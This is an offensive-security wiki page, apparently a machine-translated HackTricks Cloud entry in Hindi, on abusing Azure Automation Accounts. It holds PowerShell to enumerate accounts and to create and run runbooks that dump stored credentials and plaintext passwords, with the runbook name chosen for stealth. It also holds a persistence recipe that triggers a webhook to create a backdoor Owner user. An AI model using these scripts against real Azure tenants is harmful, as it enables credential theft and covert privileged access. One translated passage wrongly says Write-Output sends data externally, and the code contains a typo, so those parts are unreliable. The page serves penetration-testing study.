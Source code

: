 # Az - Automation Account

<details>

<summary><strong>बढ़िया होने के लिए HackTricks का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **HackTricks में विज्ञापित** देखना चाहते हैं या यदि आप **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड** करना चाहते हैं, तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एकल [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या **तुरंत** मुझे **ट्विटर** पर फ़ॉलो करें 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **अपने हैकिंग ट्रिक्स को** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके साझा करें।

</details>

## मूलभूत जानकारी

Azure Automation एक क्लाउड-आधारित स्वचालन, ऑपरेटिंग सिस्टम अपडेट और कॉन्फ़िगरेशन सेवा प्रदान करता है जो आपके Azure और गैर-Azure पर्यावरणों में संगत प्रबंधन का समर्थन करता है। इसमें प्रक्रिया स्वचालन, कॉन्फ़िगरेशन प्रबंधन, अपडेट प्रबंधन, साझा क्षमताएं और विविध सुविधाएं शामिल हैं।

ये वे "**निर्धारित कार्य**" हैं जो आपको चीजें (क्रियाएँ या स्क्रिप्ट तक) **निष्पादित** करने की अनुमति देंगे ताकि आप **Azure पर्यावरण** का **प्रबंधन**, जांच और कॉन्फ़िगर कर सकें।

### रन एस खाता

**Run as Account** का उपयोग करने पर, यह एक Azure AD **एप्लिकेशन** बनाता है जिसमें स्व-संक्षिप्त प्रमाणपत्र के साथ एक **सेवा प्रमुख** बनाता है और **वर्तमान सदस्यता** में खाते के लिए **योगदानकर्ता** भूमिका का नियुक्ति करता है (बहुत सारे विशेषाधिकार)।\
माइक्रोसॉफ्ट ने Automation Account के लिए **प्रबंधित पहचान** का उपयोग करने की सिफारिश की है।

{% hint style="warning" %}
यह **30 सितंबर, 2023 को हटा दिया जाएगा और प्रबंधित पहचानों के लिए बदल दिया जाएगा।**
{% endhint %}

## Runbooks & Jobs को हानि पहुंचाएं

**Runbooks** आपको **अनियमित PowerShell** कोड को **निष्पादित** करने की अनुमति देते हैं। इसे एक हमलावर द्वारा **संलग्न प्रमुख** की अनुमतियों की चोरी करने के लिए **दुरुपयोग** किया जा सकता है।\
**Runbooks** के **कोड** में आपको **संवेदनशील जानकारी** (जैसे कि creds) भी मिल सकती है।

यदि आप **जॉब्स** को **पढ़ सकते** हैं, तो इसे करें क्योंकि इसमें रन का **आउटपुट** (संभावित **संवेदनशील जानकारी**) होता है।

`Automation Accounts` पर जाएं --> `<चयनित Automation Account>` --> `Runbooks/Jobs/Hybrid worker groups/Watcher tasks/credentials/variables/certificates/connections`

### हाइब्रिड कर्मचारी

एक Runbook को एक **Azure कंटेनर** में या एक **हाइब्रिड कर्मचारी** में चलाया जा सकता है।\
**लॉग विश्लेषक एजेंट** VM पर डिप्लॉय किया जाता है ताकि इसे हाइब्रिड कर्मचारी के रूप में पंजीकृत किया जा सके।\
हाइब्रिड कर्मचारी जॉब्स Windows पर **SYSTEM** और Linux पर **nxautomation** खाते के रूप में चलते हैं।\
प्रत्येक हाइब्रिड कर्मचारी एक **हाइब्रिड कर्मचारी समूह** में पंजीकृत होता है।

इसलिए, यदि आप एक **Windows Hybrid Worker** में एक **Runbook** चलाने का चयन कर सकते हैं, तो आप उस मशीन में **System** के रूप में **अनियमित कमांड** निष्पादित करेंगे।

## स्थिति कॉन्फ़िगरेशन (SC) को हानि पहुंचाएं

Azure Automation **स्थिति कॉन्फ़िगरेशन** एक Azure कॉन्फ़िगरेशन प्रबंधन सेवा है जो आपको किसी भी क्लाउड या ऑन-प्रेमिस डेटासेंटर में नोड के लिए PowerShell Desired State Configuration (DSC) [configurations](https://learn.microsoft.com/en-us/powershell/dsc/configurations/configurations) लिखने, प्रबंधित और कंपाइल करने की अनुमति देता है। सेवा भी [DSC संसाधन](https://learn.microsoft.com/en-us/powershell/dsc/resources/resources) आयात करती है और लक्षित नोड्स को कॉन्फ़िगरेशन नियुक्त करती है, सब कुछ क्लाउड में। आप Azure Automation स्थिति कॉन्फ़िगरेशन तक पहुंच सकते हैं जब आप Azure पोर्टल में **स्थिति कॉन्फ़िगरेशन (DSC)** का चयन करते हैं।

इन कॉन्फ़िगरेशन में **संवेदनशील जानकारी** मिल सकती है।

### RCE

SC का दुरुपयोग करके प्रबंधित मशीनों में अनियमित स्क्रिप्ट चलाना संभव है।

{% content-ref url="az-state-configuration-rce.md" %}
[az-state-configuration-rce.md](az-state-configuration-rce.md)
{% endcontent-ref %}

## जांच

{% code overflow="wrap" %}
```powershell
# Check user right for automation
az extension add --upgrade -n automation
az automation account list # if it doesn't return anything the user is not a part of an Automation group

# Gets Azure Automation accounts in a resource group
Get-AzAutomationAccount

# List & get DSC configs
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration | where {$_.name -match '<name>'} | Export-AzAutomationDscConfiguration -OutputFolder . -Debug
## Automation Accounts named SecurityBaselineConfigurationWS... are there by default (not interesting)

# List & get Run books code
Get-AzAutomationAccount | Get-AzAutomationRunbook
Get-AzAutomationAccount | Get-AzAutomationRunbook | Export-AzAutomationRunbook -OutputFolder /tmp

# List credentials & variables & others
Get-AzAutomationAccount | Get-AzAutomationCredential
Get-AzAutomationAccount | Get-AzAutomationVariable
Get-AzAutomationAccount | Get-AzAutomationConnection
Get-AzAutomationAccount | Get-AzAutomationCertificate
Get-AzAutomationAccount | Get-AzAutomationSchedule
Get-AzAutomationAccount | Get-AzAutomationModule
Get-AzAutomationAccount | Get-AzAutomationPython3Package
## Exfiltrate credentials & variables and the other info loading them in a Runbook and printing them

# List hybrid workers
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>
```
### एक रनबुक बनाएं

{% code overflow="wrap" %}
```powershell
# Get the role of a user on the Automation account
# Contributor or higher = Can create and execute Runbooks
Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

# Create a Powershell Runbook
Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```
{% endcode %}

### एक रन बुक का उपयोग करके एक ऑटोमेशन अकाउंट में परिभाषित क्रेडेंशियल और चरों को निकालें

यदि आपको एक ऑटोमेशन अकाउंट में परिभाषित क्रेडेंशियल और चरों को निकालने की आवश्यकता है, तो आप एक रन बुक का उपयोग कर सकते हैं। रन बुक एक ऑटोमेशन अकाउंट के भीतर एक एक्शन होता है जो आपको अनुक्रिया को निष्पादित करने की अनुमति देता है। आप रन बुक का उपयोग करके अपने ऑटोमेशन अकाउंट में परिभाषित क्रेडेंशियल और चरों को निकाल सकते हैं और उन्हें एक बाहरी स्थान पर सुरक्षित रख सकते हैं।

यहां एक उदाहरण है कि कैसे आप एक रन बुक का उपयोग करके अपने ऑटोमेशन अकाउंट में परिभाषित क्रेडेंशियल और चरों को निकाल सकते हैं:

```powershell
$cred = Get-AutomationPSCredential -Name 'MyCredential'
$var = Get-AutomationVariable -Name 'MyVariable'

# Exfiltrate the credentials and variables to an external location
# एक बाहरी स्थान पर क्रेडेंशियल और चरों को निकालें
Write-Output "Credentials: $cred"
Write-Output "Variable: $var"
```

इस उदाहरण में, `Get-AutomationPSCredential` और `Get-AutomationVariable` कमांड्स का उपयोग करके हम अपने ऑटोमेशन अकाउंट में परिभाषित क्रेडेंशियल और चरों को प्राप्त कर रहे हैं। फिर हम `Write-Output` कमांड का उपयोग करके इन क्रेडेंशियल और चरों को एक बाहरी स्थान पर निकाल रहे हैं।

आप इस रन बुक को अपने ऑटोमेशन अकाउंट में निष्पादित कर सकते हैं और इसे अपनी आवश्यकतानुसार संशोधित कर सकते हैं। इसके बाद, आप इन क्रेडेंशियल और चरों को बाहरी स्थान पर सुरक्षित रख सकते हैं और उन्हें अपनी आवश्यकतानुसार उपयोग कर सकते हैं।
```powershell
# Change the crdentials & variables names and add as many as you need
@'
$creds = Get-AutomationPSCredential -Name <credentials_name>
$runbook_variable = Get-AutomationVariable -name <variable_name>
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password
'@ | out-file -encoding ascii 'runbook_get_creds.ps1'

$ResourceGroupName = '<resource_group_name>'
$AutomationAccountName = '<auto_acc_name>'
$RunBookName = 'Exif-Credentials' #Change this for stealthness

# Creare Run book, publish, start, and get output
New-AzAutomationRunBook -name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Type PowerShell
Import-AzAutomationRunBook -Path 'runbook_get_creds.ps1' -Name $RunBookName -Type PowerShell -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Force
Publish-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
$start = Start-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
start-sleep 20
($start | Get-AzAutomationJob | Get-AzAutomationJobOutput).Summarynt
```
{% hint style="info" %}
आप एक मौजूदा रनबुक को संशोधित करके और वेब कंसोल से भी यही काम कर सकते हैं।
{% endhint %}

## स्थायित्व

### उच्च अधिकारी उपयोगकर्ता बनाने वाली स्वचालन

* एक नया स्वचालन खाता बनाएं
* "Azure Run As खाता बनाएं": हाँ
* एक नया रनबुक आयात करें जो सदस्यता के लिए Owner अनुमतियों के साथ एक AzureAD उपयोगकर्ता बनाता है
* इस ब्लॉग के लिए नमूना रनबुक यहां स्थित है - [https://github.com/NetSPI/MicroBurst](https://github.com/NetSPI/MicroBurst)
* रनबुक प्रकाशित करें
* रनबुक में एक वेबहुक जोड़ें
* स्वचालन खाते में AzureAD मॉड्यूल जोड़ें
* Azure स्वचालन मॉड्यूल अपडेट करें
* "उपयोगकर्ता प्रशासक" और "सदस्यता मालिक" अधिकारों को स्वचालन खाते को असाइन करें
* अंत में अपना पहुंच खो दें...
*   नए उपयोगकर्ता बनाने के लिए पोस्ट अनुरोध के साथ वेबहुक को ट्रिगर करें

```powershell
$uri = "https://s15events.azure-automation.net/webhooks?token=h6[REDACTED]%3d"
$AccountInfo  = @(@{RequestBody=@{Username="BackdoorUsername";Password="BackdoorPassword"}})
$body = ConvertTo-Json -InputObject $AccountInfo
$response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
```

## संदर्भ

* [https://learn.microsoft.com/en-us/azure/automation/overview](https://learn.microsoft.com/en-us/azure/automation/overview)
* [https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview)
* [https://github.com/rootsecdev/Azure-Red-Team#runbook-automation](https://github.com/rootsecdev/Azure-Red-Team#runbook-automation)

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में पीआर जमा करके।

</details>
